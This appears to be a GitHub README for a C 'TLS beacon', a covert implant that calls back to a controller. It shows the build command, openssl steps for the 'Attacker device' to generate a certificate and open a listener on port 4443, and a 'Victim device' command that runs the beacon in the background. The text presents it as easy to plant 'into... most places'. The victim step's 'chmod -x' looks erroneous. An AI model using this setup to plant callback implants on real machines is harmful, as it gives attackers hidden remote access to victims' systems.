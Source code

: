 # Lightweight-TLS-Beacon
C based beacon that makes use of TLS. Should be simple enough to throw into... most places.


Usage: 

```gcc ./beacon.c beacon -lssl -lcrypto```

Attacker device: ```openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes```
```openssl s_server -accept 4443 -cert cert.pem -key key.pem```

Victim device: ```chmod -x ./beacon; ./beacon &```
